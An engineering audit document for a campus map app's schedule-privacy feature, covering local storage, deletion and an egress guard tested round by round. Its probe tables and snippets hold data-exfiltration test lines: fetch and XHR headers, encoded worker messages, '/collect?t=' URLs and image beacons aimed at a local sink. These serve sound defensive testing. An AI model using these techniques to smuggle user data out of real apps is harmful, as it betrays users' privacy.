

# A class schedule is personal data — the storage lane

`acer/si-privacy`, 2026-08-24. One lane of the schedule-import round. It owns
**storage, deletion, and the sentence that tells a student the truth about
both** — `js/wayfind.js` §12 (a new section; nothing existing edited), the
privacy copy in `index.html`, and this file. Four sibling lanes own the three
importers and the import bar. Nothing here needs them to exist, and everything
here has a seam for them (§10).

`WAYFIND.on` is untouched. The whole section sits inside the `if (!ENABLED)
return` at `js/wayfind.js:1320`, so with the feature off it adds no element, no
listener, no wrapper and no storage — §5.G proves that by loading the page
without `?walk=1` and looking.

---

## THE VERDICT, ROUND 8 — read this first

**Rounds 4 through 7 each found the same bug wearing a different hat: a check
that exists, is correct, and is wired to ONE of the two doors.** So round 8
stopped asking "what shape is unhandled" and asked, for every capability the
guard has, *which doors is it wired to*. Two answers came back wrong, and both
put a class title on a raw TCP socket with the guard armed.

**One. The decode retry was wired to the network door only.** Round 6 found that
a percent-encoded canary does not contain the canary and fixed it — in a
*second* function, `scanTextForSchedule`, called from the URL and body paths.
`scanStructured()`'s string leaf kept calling the raw one, and so did
`inspectPayload`'s top-level string branch and the walk's `RegExp`, `Error` and
boxed-`String` branches.

```js
worker.postMessage({ t: encodeURIComponent(classTitle) });
//  guard armed → blocked: 0, opaqueWorkerLeaves: 0
//  worker decodeURIComponent()s it and its own fetch puts it on the socket
```

**Ten shapes of encoded string crossed at `blocked: 0, opaque: 0`** — uncounted
and unlogged, the identical reading round 5 got from the `ArrayBuffer` hole and
round 7 got from the array hole. Six of the ten landed
`Thaumaturgical Marimba Rhetoric` on the listener verbatim.

**Two. Request HEADERS had never been inspected by anything, ever.** `inspect()`
is handed a method, a URL and a body. Nothing had ever handed it the headers,
and a header is a string that goes on the wire:

```js
fetch(sink, { headers: { 'X-Sched': classTitle } });   // 204, blocked: 0
xhr.setRequestHeader('X-Sched', classTitle);           // 204, blocked: 0
```

This is not an exotic shape. Attaching a context header is what every analytics
and error-reporting library does, and *"a later lane wires an analytics call
into this file"* is the exact scenario §12 says the guard exists for. It is also
worth naming what nearly hid it: `fetch(new Request(url, { headers }))` **was**
refused — by the round-5 unreadable-body rule, on the `Request`'s stream body,
having never looked at a header. A guard can pass a probe for the wrong reason.

**The fix is structural, not a sixth and seventh patch.**

- There is now exactly **one** function anyone can call to ask "does this string
  carry the schedule", and it does the whole job — raw test, then the gated
  decode retry. The raw test still exists, is not exported, and is called from
  precisely one place: that function's own retry. Wiring the weak version to a
  new door is no longer possible, because the weak version has no name a caller
  can reach.
- The byte scanner cannot decode its haystack — percent-decoding 120 MB of tile
  bytes per load is not a thing to do on the tile path — so **the needle carries
  the encodings instead.** `buildBytePatterns` registers the percent- and
  `+`-encoded forms of every watched token. Zero cost in the hot loop, and
  almost none in the prefilter, because `encodeURIComponent` leaves letters
  alone: the encoded form of a class title starts with the same two bytes as the
  title, so no new mask bit is lit.
- `inspect()` takes a **list** of header sources, never one, because
  `fetch(new Request(u, { headers }), { headers })` has two and picking either
  is how this class of bug starts. A collection that will not enumerate is
  refused, the same rule an unreadable body got in round 5.

Two more doors of the same family were closed while the file was open, both
strings that reach the wire and neither ever scanned: a **WebSocket's
subprotocols** (they travel as `Sec-WebSocket-Protocol` in the opening
handshake — the constructor guard passed `''` for the body) and an
**`RTCDataChannel`'s label** (carried in the SDP, so the name alone is a leak
that never calls `send`; round 7 guarded the send and not the name).

| the probe, guard armed | round 7 | round 8 |
|---|---|---|
| `postMessage({ t: encodeURIComponent(title) })` | **on the socket**, blocked 0, opaque 0 | **refused**, blocked +1 |
| a top-level encoded string | on the socket | refused |
| `title.replace(/ /g,'+')` | on the socket | refused |
| `new URLSearchParams({t:title}).toString()` | on the socket | refused |
| an encoded string inside an array | on the socket | refused |
| `{ url: '/collect?t=' + encodeURIComponent(title) }` | on the socket | refused |
| an encoded string as a `RegExp` source | not blocked | refused |
| an encoded string as an `Error` message | not blocked | refused |
| an encoded string in a boxed `String` | not blocked | refused |
| `encode(encodeURIComponent(title)).buffer` | on the socket | refused |
| `fetch(headers: { 'X-Sched': title })` | `204` on the wire | refused |
| the same through a `Headers` object | `204` on the wire | refused |
| `xhr.setRequestHeader('X-Sched', title)` | `204` on the wire | refused |
| `fetch(new Request(u,{headers}))` | refused *for the wrong reason* | refused, on the header |
| round 7's `a.note = title` array | refused | still refused |
| `fetch(body: utf16leBuffer)` | refused | still refused |
| a real MapLibre tile buffer | crosses | **still crosses, untouched** |
| `new Image().src = sink + '?t=' + title` | on the wire | **still on the wire — §9** |

Same bare TCP listener, and the negative control is what makes the armed column
mean anything: **disarmed, every one of those fourteen shapes and all six
channels carried, and the socket read the canary back.**

**And the map still draws.** Guard armed, a schedule stored, six pan-and-zoom
legs across campus: `blocked: 0`, `truncatedScans: 0`, `scanThrows: 0`,
`inspectFailures: 0`, `unreadableHeaders: 0`, **15,413 buffers and 120.1 MB of
real tile bytes read by the guard and passed**, 321 header reads, `styleLoaded:
true`, `tilesLoaded: true`, 221 layers. Frame:
`shots/si/privacy/r8-map-guarded.jpg`.

**What it costs.** On the real city, **no result**: a true A/B that serves the
round-7 `js/wayfind.js` to the page, three interleaved and counterbalanced reps
each way, gives 0.261–0.332 ms/message against 0.244–0.298, and overlapping
spreads mean no result. Isolated it is real: 20,000 string leaves cost **1.30×**
when the new gate never fires and 2.63× when it fires on every one of them — and
the first of those is the row this app pays, because MapLibre's payloads are
binary. §8 has the ledger.

**And one prediction in this document was wrong, so the census is in §8.** The
header change was written up as costing nil because this app sets one header on
one request in its whole source. Measured, the guard reads headers on **248–411
requests per drive**, because MapLibre passes a headers object on essentially
every tile fetch. Nothing is broken by it — `unreadableHeaders` is 0 and no real
request was ever refused — but the claim had been read off the code instead of
run, which is the mistake §8 is a list of.

---

## Round 7 — the previous verdict, kept because round 8 is a correction to it

**Round 6 said it had stopped patching shapes and changed the default. It had
changed half the default, and round 7's own probe put a class title through the
other half and onto a raw TCP socket in the most ordinary shape in JavaScript:
an array.**

```js
const a = [1, 2, 3];
a.note = classTitle;          // an array with a property tacked on
worker.postMessage({ a });    // guard armed → blocked: 0, opaque: 0
```

`structuredClone` carries that property — a clone walks
`EnumerableOwnPropertyNames`, not the indices — so the worker received the title,
decoded it, and its own `fetch` put it on the socket verbatim. The guard's
counters read `blocked: 0, opaqueWorkerLeaves: 0`: **uncounted and unlogged**,
the identical reading round 5 got from the `ArrayBuffer` hole round 6 existed to
fix. Five variants of it leaked — `{ a }`, a bare top-level array, an `Array`
subclass, a sparse array, and a whole object tree hanging off an array property.

**Why it survived round 6.** Round 6 asked *which node kinds does the walk
recognise* and got that right. It never asked *what does recognising one mean*.
The array branch read

```js
for (let i = 0; i < x.length && swHit === null && !swTrunc; i++) scanWalk(x[i]);
```

— an index loop, which is not what a structured clone does to an array. So the
one branch round 6's comment called "fully read" was the one that was not, and
it was optimised into being wrong: arrays were the shape worth making fast.

**Round 7's rule is the one the platform already uses.** For every kind this
walk claims to read, it reads exactly what the clone algorithm reads. For
`Array` and for a plain object that is the same thing — own enumerable
properties — so they are now the same loop and an array is no longer a special
case that can drift. Not a sixth patch: a rule that makes the sixth patch
unnecessary.

**A second, independent hole, in the half of the guard nobody was looking at.**
Round 6 built `scanBytesForSchedule()` to read UTF-8 *and* UTF-16LE — the two
encodings an honest bug produces — and wired it to exactly one of the two doors.
`bodyToText()` decodes a network body as UTF-8 only, so

```js
fetch(sink, { method: 'POST', body: utf16leBufferOfTheTitle })
```

came back `204` off the same socket with the guard armed, while the *same title*
UTF-8-encoded was refused. A guard that is encoding-complete on the worker path
and encoding-blind on the network path is a coin flip about which door gets used.

**And four doors that were never looked at at all.** Fired with the guard armed,
each returned `checked: 0` — not allowed, *never inspected*:
`window.postMessage`, `iframe.contentWindow.postMessage`,
`navigator.serviceWorker.register(url)`, `RTCDataChannel.send`. The iframe one
carries a fact worth keeping: **a same-origin child iframe is a separate
JavaScript realm with its own intrinsics**, so patching our `Window.prototype`
does not reach it, and its own `fetch` reaches the network the way a worker's
does. The guard now follows the reference into any child realm this page has a
handle on.

| the probe, guard armed | round 6 | round 7 |
|---|---|---|
| `postMessage({ a })`, `a.note = title` | **landed on the socket**, blocked 0, opaque 0 | **refused**, blocked +1 |
| a bare top-level array with a property | landed on the socket | refused |
| an `Array` subclass with a property | landed on the socket | refused |
| a sparse array with a property | landed on the socket | refused |
| a hole *and* an extra, so counts cancel | landed on the socket | refused |
| an object tree hanging off an array property | landed on the socket | refused |
| `fetch(body: utf16leBuffer)` | `204` on the wire | refused |
| `fetch(body: utf8Buffer)` | refused | refused |
| `window.postMessage(title, '*')` | never inspected | refused |
| `iframe.contentWindow.postMessage` | never inspected | refused |
| `serviceWorker.register('/collect?t=' + title)` | never inspected | refused |
| `RTCDataChannel.send(title)` | never inspected | refused |
| round 5's `ArrayBuffer` transfer | refused | still refused |
| a real MapLibre tile buffer | crosses | **still crosses, untouched** |
| `new Image().src = sink + '?t=' + title` | on the wire | **still on the wire — §9** |

The instrument is the same bare TCP listener, and the negative control is what
makes the armed column mean anything: **disarmed, every one of those shapes put
`Palaeobotanical Ensemble Studio` on the socket verbatim.**

**And the map still draws.** Guard armed, a schedule stored, six pan-and-zoom
legs across campus: `blocked: 0`, `truncatedScans: 0`, `scanThrows: 0`,
`inspectFailures: 0`, **15,351 buffers and 122.5 MB of real tile bytes read by
the guard and passed**, `styleLoaded: true`, `tilesLoaded: true`, 221 layers.
Frame: `shots/si/privacy/r7-map-guarded.jpg`.

**What it costs, and this round will not say "nothing" either.** On the real
city the change is not measurable: three interleaved reps each way, guard time
across an identical drive, **new 0.250–0.271 ms/message against old
0.213–0.273** — the spreads overlap, which per `scripts/verify/README.md` means
there is no result. Isolated on a fixed payload it is real and it is not small:
a 600,000-element numeric array costs **103 ms per message against 13.6 ms**,
7.6×. The two facts are both true because MapLibre's real payloads are binary,
and the byte scan of ~120 MB dwarfs the walk. §8 has the ledger, including the
optimisation that was rejected for being *unsound* rather than slow.

---

## Round 6 — kept because round 7 was a correction to it

**Round 5's critic put a class title through a worker and onto a raw TCP socket
with the guard armed, and the guard did not even count it.** The walk that
inspects a worker payload had this line in it:

```js
if (ArrayBuffer.isView(x) || x instanceof ArrayBuffer) return;   // skip
```

— no flag, nothing counted, defended by a comment claiming a buffer "cannot
hold a JS string". `TextEncoder` makes that false in one line, which is exactly
what the critic did: `encoder.encode(classTitle).buffer`, `postMessage`d with a
transfer list, `blockedDelta: 0`, **`opaqueDelta: 0`**. Not merely unblocked —
*uncounted, unlogged, invisible to the guard's own instrumentation.* And once
the bytes were inside the worker, the worker's own `fetch` — which a main-thread
guard cannot reach — put them on the wire.

That was the third round running in which this promise had a real,
socket-verified hole, and each previous fix had shut exactly the shape that had
been demonstrated: round 4 a `Blob` request body, round 5 a `Blob` payload leaf.
Patching the third shape would have left a fourth.

**So round 6 changed the default instead of adding a case.** The walk now
recognises a closed list of node kinds it can genuinely read, reads them, and
**flags anything else as unread**. `Map`, `Set`, `RegExp`, `Error`, `ImageData`,
`ImageBitmap`, a cloneable type nobody has invented yet — none of them needs its
own line to be caught, because the default branch is now "I could not read
this" rather than "nothing to see here". Binary is neither skipped nor blocked:
**the bytes are scanned**, so a buffer that really is tile data passes and a
buffer that really is a class title does not.

| the probe, guard armed | round 5 | round 6 |
|---|---|---|
| `postMessage` an `ArrayBuffer` of the title, transferred | **landed on the socket**, blocked 0, opaque 0 | **refused**, blocked +1, 30 bytes scanned |
| the worker's own `fetch` with those bytes | `204`, canary read off the socket verbatim | never happens — the worker is never handed the bytes |
| a `Uint8Array` view of the title | went through | refused |
| the title as UTF-16LE in a `Uint16Array` | went through | refused |
| `new Map([['k', title]])` | went through | refused |
| `new Set([title])` / `new RegExp(title)` | went through | refused |
| `ImageData` with the title in its pixels | went through | refused |
| a `MessagePort` carrying the title into a worker | went through — never inspected at all | refused |
| `new Worker('/collect?t=' + encodeURIComponent(title))` | went through | refused |
| `fetch('/collect?t=' + encodeURIComponent(title))` | went through | refused |
| a real 16 KB MapLibre tile buffer | crossed | **still crosses, untouched** |
| a plain harmless worker message | crossed | still crosses |

The instrument is a **bare TCP listener** reading bytes off the wire, the same
one the critic used to break it, plus the guard's own counters read immediately
before and after each probe. With the guard armed the socket received **0
bytes**; with it disarmed the same probe put `Zygomorphic Percussion Seminar` on
that socket verbatim and the worker reported `sent: 204`, which is what makes
the armed result mean something.

**A second silent bypass nobody had reported, found while fixing the first.**
The walk gave up at `maxNodes`, returned `complete: false`, and **every caller
dropped it on the floor**. Measured: **21 of this app's own worker messages per
cold load exceeded the old 4,000-node cap**, so 21 payloads a load were sailing
past uninspected and unlogged. Running out of budget is now a refusal, and the
cap is set from a measurement — 634,093 nodes in the largest real payload under
a deliberately punishing camera drive, cap 8,000,000.

**And the map still works, which is the part that was not free.** Blocking the
`ArrayBuffer` shape outright was never available: MapLibre moves **22.5 MB of
genuine tile bytes** through this exact path on one cold load, 4,742 buffers,
median 4 KB. A cold load with a schedule already on the device, guard armed,
then driven hard across five pan-and-zoom steps:

> `blocked: 0`, `truncatedScans: 0`, `scanThrows: 0`, `inspectFailures: 0`,
> `binaryLeaves: 19165`, `binaryBytes: 141110122`, `styleLoaded: true`,
> `tilesLoaded: true`

141 MB of tile bytes read by the guard and passed. Nothing of the map's own
traffic was refused.


**What it costs, and this round cannot say "nothing".** Round 5 could, because
round 5 skipped the bytes. Minimum of three interleaved reps of a cold load,
measured as time inside `Worker.prototype.postMessage`: **827 ms with a schedule
stored against 261 ms with none** — so about **570 ms of extra main-thread work
spread across a whole cold load**, roughly 0.22 ms per worker message, to read
~20 MB. Only for a device that has a schedule on it; with nothing stored the
guard is still one `if`. §8 has the ledger, including two optimisation theories
that were measured and were wrong.

**Reproduce it in three commands:**

```
python scripts/serve.py 8915                 # never python -m http.server
node scripts/verify/harness-drift.mjs        # preflight; PASS, 31/31 scripts
cd scripts/verify && VERIFY_URL=http://127.0.0.1:8915 node r6-arraybuffer.mjs
```

`r6-arraybuffer.mjs` is in §11 verbatim (this lane may not write
`scripts/verify/`).

---

## 1. The promise, and the one sentence that makes it

> **Your schedule stays on this device — saved in this browser only, never
> uploaded anywhere, and Delete wipes it for good.**

Three clauses, because there are exactly three things a student wants to know,
and each is a claim this round can actually back:

| clause | what backs it |
|---|---|
| *saved in this browser only* | one `localStorage` key, `austin3d.schedule.v1` |
| *never uploaded anywhere* | §5.C and §6 — every request during a real import, scanned. Zero. |
| *Delete wipes it for good* | §5.E and §5.F — the real button, then a reload |

No "we may share with our partners", no "we take your privacy seriously", no
link to a policy. It says what happens, in the voice the rest of this feature
already uses (*We can't route inside buildings*; *Nobody was asked about
lighting along this route*). One sentence, because a student reads one sentence.

**Where to change the wording:** `index.html`, the `<template
id="wf-privacy-copy">` block above the `js/wayfind.js` script tag — a one-line
HTML edit (CLAUDE.md rule 11). `js/wayfind.js` carries the identical strings as
`SCHEDULE_PRIVACY_COPY`, because `_harness.html` has no template and must say
the same thing. §5.A asserts the two have not drifted, so changing one and not
the other turns the gate red on purpose instead of quietly shipping two
different promises. The template is not a `<script src>`, so `harness-drift.mjs`
is unaffected — verified, it passes.


---

## 2. What a student sees

Three states, in the footer of the walk sheet — where this feature already puts
the things it has to say about itself.

| nothing stored | a schedule stored | just deleted | after a reload |
|---|---|---|---|
|  |  |  |  |

- The sentence is there **before** anything is imported, not after. A student
  should know where their schedule is going before they paste it in.
- The Delete button only exists when there is something to delete.
- **One tap, no "are you sure".** The brief asked for one tap, and an undo would
  mean keeping the data after telling someone it was gone. If that ever reads as
  too sharp, `SCHEDULE_STORE.deleteNeedsConfirm = true` is the one-line change.
- The state line says **counts and a source**, never a class name — the sheet
  can be open on a phone somebody else is looking at.

---

## 3. What gets stored, and the three things reserved for imports that do not exist yet

One key, `austin3d.schedule.v1`, holding one JSON envelope. A four-class
schedule is 1,397 bytes.

```
{ v, savedAt, term, tz,
  sources: [ { id, kind, label, importedAt } ],
  classes: [ { id, code, room, title, instructor, days[], startMin, endMin,
               unroutableWhy, confidence, src, provenance } ] }
```

Simeon asked for Google Calendar, Apple Calendar and UT's registration export
now, and for a photo of a schedule or a Registration-Plus API to be addable
later **without a rewrite**. Three reservations buy that, and each is something
that would otherwise force every stored schedule to be migrated:

1. **`sources` is a LIST, and each class points at one.** A photo imported on
   top of an existing `.ics` has to *add* to a schedule, not replace it. A
   single `source` string on the envelope cannot express that, and discovering
   it later means a schema change.
2. **`confidence` and `provenance` on every class.** An `.ics` is exact — 1.0,
   and the `VEVENT` UID. OCR is not, and needs somewhere to record which box on
   the image a room number came from, so the student can be shown what to check.
3. **`v` plus a `SCHEDULE_MIGRATIONS` chain.** A v2 reader opens a v1 blob; a v1
   reader hands back `{tooNew:true}` and leaves the data alone rather than
   deleting a schedule it does not understand.

`SCHEDULE_SOURCES` already names `image-ocr` and `registration-plus` alongside
the three being built — listed before they exist on purpose. That is the
forward compatibility, written down, and it means the delete sweep in §4 already
covers what they will write.

**`unroutableWhy` is a string, not a boolean**, because eleven codes a real UT
schedule can name cannot be routed to in this build, and they are **two
different problems wearing one label** (§7).

---

## 4. Delete means gone

`WAYFIND.store.clear()` does four things, and the second is the one that matters
for a feature that is going to grow:

1. removes `austin3d.schedule.v1`;
2. **sweeps every key under the `austin3d.schedule.` prefix, in `localStorage`
   AND `sessionStorage`** — so a source added next month that writes its own key
   is already covered by a delete written today. `austin3d.gfx.v1`
   (`js/graphics.js`) does not match the prefix and is left alone; §5.E and §5.F
   both print the surviving key list to prove it;
3. deletes the IndexedDB database `austin3d-schedule`, **whether or not anything
   has created it**. A photo will not fit in `localStorage`, so the OCR pass will
   need IDB, and delete has to reach it the day it starts existing. Deleting a
   database that was never created is a no-op;
4. drops the in-memory copy **and the egress guard's watchlist** — the guard must
   not end up holding the last copy of the thing it was guarding.

A `storage` event listener makes a delete in one tab a delete in every tab.

---

## 5. The audit — driving the real thing, not reading the code

playwright-core from `scripts/verify/node_modules`, explicit `executablePath`
`C:/Program Files/Google/Chrome/Application/chrome.exe`, one browser, killed at
the end, port confirmed free after. `?walk=1&drift=0&intro=0`,
`window.cancelGraphicsAutoDetect()` at the top of every page, wait for the veil
to go. `harness-drift.mjs` passes before each run: 31 / 31 scripts.

### 0. The doc's own citations, before anything is measured

A gate reads this file, resolves **every path it cites**, and fails if one does
not exist — either here, or in the branch the doc names next to it. It exists
because round 3 of this document backed its central factual claim with four
citations to `docs/schedule-gaps.md` (does not exist), and nothing caught it
because nothing was looking. The gate caught it on its first run. It also
asserts the sentence quoted in §1 is byte-identical to the one `index.html`
serves and the one `js/wayfind.js` falls back to. Script in §11a.

### A–B. The feature is on, the panel is mounted, and a real schedule goes in

`WAYFIND.store` exists under `?walk=1`; the guard reports installed and armed;
the panel is really on screen (a box with width and height, not a computed
style). A Google Calendar export is parsed and saved through the real
`WAYFIND.store.save()` — the same seam the importer lanes call. The state line
is asserted **not** to contain any class title.

### C. Every request, scanned

Every request during the import window is captured and scanned against the
schedule's own strings — page-level, and worker-level via a recorder injected
into each worker, because `scripts/verify/README.md` documents that a
page-scoped capture cannot see MapLibre's worker fetches and will under-report a
load by 19 MB. **Zero requests carried schedule content.**

### D. The negative control — nine channels, fired disarmed then armed

This is the round-4 script, and at the time §9 advertised **seven** doors. Every
one is fired twice: disarmed, to prove the channel really carries and the
instrument really sees it; then armed, to prove the guard is what stopped it.
Each case asserts the two outcomes **differ** and that the armed one is ours.
All nine close.

Round 6 added four more doors — `MessagePort.postMessage`,
`BroadcastChannel.postMessage`, and the `Worker` / `SharedWorker` constructors'
script URLs — so §9's list is now eleven and this script no longer covers all of
it. The four new ones are fired in §6's round-6 table instead, on the same
disarmed-then-armed pattern.

Three are worth a note, because a lazy test would pass while proving nothing:

- **`WebSocket.send` throws either way.** The socket never connects, so an
  unguarded `send` throws `InvalidStateError`. The test is that the two errors
  are *different* — the guarded one is our block, thrown before `super.send`.
- **`form.submit()` and `form.requestSubmit()` are two different doors.**
  `submit()` fires no `submit` event, so the prototype wrapper and the
  capture-phase listener are separate code with separate bugs available to them.
- **The form test found a bug in the instrument, not the guard.** The first
  version submitted into `target="_blank"`; the request then belongs to a popup,
  the page-scoped capture never sees it, and the *disarmed* control reported
  zero — a clean-looking result that meant the instrument was blind. It submits
  into a hidden same-page iframe now.

Re-run on this round's commit with the fail-closed change in place: **ALL PASS,
unchanged.** The nine-door script is long and unchanged since round 4, so rather
than carry it twice it is recoverable verbatim from this branch's own history:

```
git show 83382d4:docs/si-privacy.md      # §10b of that revision
```

### E and F. Delete, then reload

A **real mouse click** on the real `#wf-priv-del`, then a fresh document:

```
PASS  no schedule key left in local or session storage    ["austin3d.gfx.v1"]
PASS  store.has() false immediately after the tap
PASS  inventory reports zero bytes stored
PASS  the guard dropped its copy of the schedule too
PASS  RELOADED: no schedule key in storage                ["austin3d.gfx.v1"]
PASS  RELOADED: the schedule key reads null
PASS  RELOADED: store.load() returns nothing
PASS  RELOADED: reserved IndexedDB database is not there  []
PASS  RELOADED: the panel is back to its empty state
```

The one surviving key is the graphics preference this app already had.

**The trap in this stage, and how round 5 avoids it.** `r5-blob.mjs` seeds the
schedule with a page-scoped `addInitScript` so the guard is armed from boot.
Reloading *that* page would write the schedule straight back, and "delete
survived a reload" would be testing the seeder — green, and meaningless. The
reload is therefore a **new page in the same browser context**: same origin,
same storage on disk, none of the first page's init scripts.

### G. Off is still off

With `?walk=1` absent: no `WAYFIND.store`, no `window.wayfindStore`, no panel,
no injected CSS, and `fetch`, `XMLHttpRequest.prototype.open`,
`navigator.sendBeacon` and `Worker.prototype.postMessage` are all still the
native functions.

---

## 6. Rounds 5 and 6: unreadable is refused, and the walk is closed by default

### What was wrong

`bodyToText()` returns a string for a string, a `URLSearchParams`, a `FormData`
or a small buffer — and `undefined` for a `Blob`, a `ReadableStream`, or a
buffer past `maxBytes`. `inspect()` used to treat that `undefined` as "nothing
to scan", count it, and let the request go. **Unreadable was being treated as
empty.** Every one of round 4's nine channels was fired with a *string* body, so
nothing in the audit had ever exercised the other branch.

### What it is now

`SCHEDULE_STORE.blockUnreadableBodies` (default `true`). While a schedule is
stored, a body the guard cannot read is a body it cannot clear, and it is
refused with the same error the guard uses for a real match — the log says
`a body the guard could not read` rather than a redacted token, because that is
what actually happened. `SCHEDULE_STORE.blockOpaqueWorkerLeaves` is the same
rule for a `Blob` handed to a worker instead of the network; it is a separate
constant because that one sits on MapLibre's per-tile path and the other does
not. Both are one-line flips back to fail-open if a later lane ever needs a
genuine binary upload.

`scanStructured()` had the identical defect one layer in: a `Blob` is an object
with no own enumerable properties, so the walk strolled past one and reported a
clean `hit: null`. It now reports `opaque` and the caller decides.

### The run

A **bare TCP listener** on 127.0.0.1:8916 — `net.createServer`, not `http`,
because a framework can normalise, buffer or drop a body and I would never know.
It records the literal bytes that arrive. The canary strings belong to this run
and nothing else: a class title, an instructor, a room.

```
── 1. what the new rule cost on a cold map load with a schedule stored ──
    {"checked":2666,"quietChecked":2596,"blocked":0,"unreadableBodies":0,"opaqueWorkerLeaves":0}
  PASS  the guard really did inspect worker traffic during the cold load   2596 worker messages
  PASS  the new fail-closed rule blocked NOTHING the app itself does
  PASS  no request this app makes has a body the guard cannot read
  PASS  no worker payload this app posts contains a Blob or a stream

── 2. BLOB probe, disarmed: does it carry, and can the instrument see it? ──
    fetch              -> sent            socket saw: ["Ferroelectric Hysteresis Seminar","Okonkwo-Halvorsen","Cryptographic Protocol Design"]
    xhr                -> sent            socket saw: [ …the same three… ]
    sendBeacon         -> returned true   socket saw: [ …the same three… ]
    worker-postmessage -> posted          socket saw: []
    postData()       saw the Blob canary: true
    postDataBuffer() saw the Blob canary: true
  PASS  socket and capture AGREE about the disarmed leak — neither instrument is blind

── 3. BLOB probe, armed: is it refused, and does the socket stay silent? ──
    fetch              -> threw: [wayfind] blocked: fetch carried stored schedule co   socket saw: []
    xhr                -> threw: [wayfind] blocked: XMLHttpRequest carried stored sc   socket saw: []
    sendBeacon         -> returned false                                               socket saw: []
    worker-postmessage -> threw: [wayfind] blocked: Worker.postMessage carried store   socket saw: []
  PASS  fetch: ARMED — NOTHING reached the socket   []
  PASS  xhr: ARMED — NOTHING reached the socket   []
  PASS  sendBeacon: ARMED — NOTHING reached the socket   []

── 4. the other unreadable shape: a ReadableStream body ──
  PASS  a ReadableStream body is refused the same way a Blob is

── 5. the rule did not break ordinary traffic ──
  PASS  a bodyless GET is untouched with a schedule stored   ok 200
  PASS  the guard counted its opaque refusals   blockedOpaque=5
  PASS  still no inspector failures
```

The **disarmed half is the load-bearing half**. Without it, "armed, nothing
reached the socket" is equally consistent with a probe that never fired, a sink
that was not listening, and a guard that works. Disarmed, the canary is sitting
in the socket's buffer — so the channel carries, the sink sees, and the only
thing that changed between the two rows is the guard.

### Cost, measured on the right window

Round 4's cost number was taken *after* the map had loaded, so the guard had
spent the whole cold load on its fast path with an empty watchlist — the wrong
window. `r5-blob.mjs` writes the schedule into `localStorage` at document-start,
before the app boots, so `scheduleLoad()` finds it during boot and **every**
worker message of the cold load is inspected.

**Four runs, not one**, because this suite has been burned by single readings
before (`scripts/verify/README.md`): 2,596 / 2,654 / 2,679 / 2,086 worker
messages. The count moves with how many tiles the camera pulls, which is why the
number to read is not the count but what happened to it — **blocked 0,
unreadableBodies 0, opaqueWorkerLeaves 0, inspectFailures 0, in every run.** The
new rule never fires on this app's own traffic, because every request on the hot
path — tiles, glyphs, sprites, style JSON, the baked city data — is a bodyless
`GET`.

### Round 6: the walk is closed by default

Round 5 fixed `Blob` and `ReadableStream` in `scanStructured()` by adding two
`instanceof` checks to the front of an open-by-default walk. That is why round
6 existed: the shape one line below them — `ArrayBuffer` and every
`ArrayBuffer.isView` — was skipped outright, and a class title round-tripped
through `TextEncoder` crossed the guard **uncounted**.

The walk now works the other way round. It recognises what it can read and
**flags everything else**:

| node kind | what happens |
|---|---|
| string | scanned against the watchlist |
| number, boolean, bigint, `Date`, `Number`/`Boolean` wrapper | passed — holds no text |
| `Array`, plain object, object with a `null` prototype | walked in full |
| `ArrayBuffer`, any `TypedArray`, `DataView`, `SharedArrayBuffer` | **bytes scanned** |
| `Map`, `Set` | entries walked |
| `RegExp` | `.source` scanned |
| `Error` | `.message` and `.stack` scanned |
| `String` object | scanned |
| a class instance with own enumerable properties | those walked |
| **anything else** | **`opaque` — refused** |

That last row is the whole change. A `Blob`, a `File`, an `ImageData`, an
`ImageBitmap`, a `DOMMatrix` and every cloneable type the platform grows next
all land there without needing a line of their own, because what they have in
common is not their name — it is that a `for...in` walk sees nothing on them.
Adding a type to the platform can make this guard *over*-refuse. It cannot make
it under-refuse.

**The default costs nothing here, and that was measured, not assumed.** A census
of every object crossing `Worker.postMessage` on a full cold load found exactly
three constructors — `Object` (99,482), `Array` (238,770), `Uint8Array` (4,347)
— and **zero** objects with no own enumerable properties. The rule that would
have blocked a `Blob` has nothing of this app's own to catch.

### Why the bytes are scanned rather than blocked

Blocking the binary shape was never on the table. One cold load pushes **4,742
`Uint8Array` leaves and 22.5 MB** through `Worker.postMessage`; the median leaf
is 4 KB, the 99th percentile 16 KB, six leaves a load exceed 64 KB, and the
largest single message totals 999,424 bytes. Refusing that is refusing the map.

So `scanBytesForSchedule()` matches the watched tokens' **bytes** against the
buffer's bytes, allocating nothing: no `TextDecoder` copy, no `toLowerCase()`
copy, one pass with a 65,536-entry prefilter keyed on the first two bytes of
each pattern. Two encodings are covered, UTF-8 and UTF-16LE, because those are
the two an honest bug produces — `TextEncoder` output and a hand-rolled
`charCodeAt` copy. Base64 and gzip are not covered and cannot be; §9.

### The node budget, which was a silent bypass of its own

`scanStructured()` used to stop at 4,000 nodes and return `complete: false`, and
**no caller ever read that field.** Measured on this app's own traffic: **21
messages per cold load exceed 4,000 nodes**, the largest being 172,512 on a
still camera and **634,093** when the camera is driven. Twenty-one payloads a
load were passing uninspected with nothing recorded.

Exhausting the budget is now a refusal, which is what allows the cap to be
generous — a leak gains nothing by padding past it, so the cap's only job is to
bound the guard's own worst case. `workerScanNodes` is 8,000,000, 12.6× the
worst real payload measured. The first attempt at this number was 400,000, and
it **blocked one of MapLibre's own messages** on a driven camera; the cap was
raised because the map came back red, not because the reasoning improved.

### The run, round 6

Guard armed, canaries chosen for this round (`Zygomorphic Percussion Seminar`,
`Prof. Quenneville Ashbourne`), a bare TCP listener on its own port as the sink,
and the guard's counters read immediately before and after each probe. Every row
below is one probe.

| probe | result | counters |
|---|---|---|
| `postMessage({payload: encode(title).buffer}, [buffer])` | **refused** | `blocked +1`, 1 leaf, 30 bytes scanned |
| the same, guard **disarmed** | went through, worker `fetch` → `204` | socket read the canary **verbatim** |
| a real 16 KB MapLibre tile buffer, replayed armed | **crossed** | `blocked +0`, 1 leaf, 16,384 bytes scanned |
| `Uint8Array` view of the title | refused | 34 bytes scanned |
| title as UTF-16LE in a `Uint16Array` | refused | 54 bytes scanned |
| `new Map([['k', title]])` | refused | — |
| `{s: new Set([title])}` | refused | — |
| `{r: new RegExp(title)}` | refused | — |
| `ImageData(16,16)` with the title in its pixels | refused | 1,024 bytes scanned |
| `{b: new Blob([title])}` | refused | `opaqueWorkerLeaves +1` |
| `MessageChannel` port carrying the title | refused | `blocked +1` |
| a 5 MB buffer with the title at the end | refused | over `binaryScanBytes` |
| a 9,000,001-element array with the title last | refused | `truncatedScans +1` |
| `new Worker('/collect?t=' + title)` | refused | `blocked +1` |
| `new Worker('/collect?t=' + encodeURIComponent(title))` | refused | `blocked +1` |
| `fetch('/collect?t=' + encodeURIComponent(title))` | refused | `blocked +1` |
| `fetch(url, {body: new URLSearchParams({title})})` | refused | `blocked +1` |
